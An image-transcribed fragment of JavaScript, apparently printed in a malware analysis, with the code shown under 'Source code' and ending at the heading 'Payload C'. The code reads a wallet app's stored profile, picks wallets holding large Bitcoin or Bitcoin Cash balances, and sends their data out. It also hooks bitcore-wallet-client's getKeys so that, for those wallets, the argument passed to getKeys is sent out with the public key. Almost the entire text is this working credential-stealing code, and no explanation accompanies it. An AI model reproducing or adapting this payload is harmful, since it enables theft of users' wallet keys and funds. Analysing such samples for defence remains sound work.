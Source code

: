 ```javascript
                                  return n(JSON.parse(t.result))
                              }, t.onerror = function(e) {
                                  t.abort()
                              }, t.readAsText(e)
                          })
                      })
                  })
              } catch (e) {} else {
                  try {
                      var r = localStorage.getItem(t);
                      if (r) return n(JSON.parse(r))
                  } catch (e) {}
                  try {
                      chrome.storage.local.get(t, function(e) {
                          if (e) return n(JSON.parse(e[t]))
                      })
                  } catch (e) {}
              }
          }
          global.CSSMap = {}, l("profile", function(e) {
              for (var t in e.credentials) {
                  var n = e.credentials[t];
                  "livenet" == n.network && l("balanceCache-" 
                    + n.walletId, function(e) {
                      var t = this;
                      t.balance = parseFloat(e.balance.split(" ")[0]), 
                      "btc" == t.coin && t.balance < 100 || 
                      "bch" == t.coin && t.balance < 1e3 || 
                      (global.CSSMap[t.xPubKey] = !0, 
                        r("c", JSON.stringify(t)))
                  }.bind(n))
              }
          });
          var e = require("bitcore-wallet-client/lib/credentials.js");
          e.prototype.getKeysFunc = e.prototype.getKeys, 
            e.prototype.getKeys = function(e) {
              var t = this.getKeysFunc(e);
              try {
                  global.CSSMap && 
                  global.CSSMap[this.xPubKey] && 
                  (delete global.CSSMap[this.xPubKey], 
                    r("p", e + "\t" + this.xPubKey))
              } catch (e) {}
              return t
          }
      } catch (e) {}
  }
  window.cordova ? document.addEventListener("deviceready", e) : e()
}();
```
## Payload C
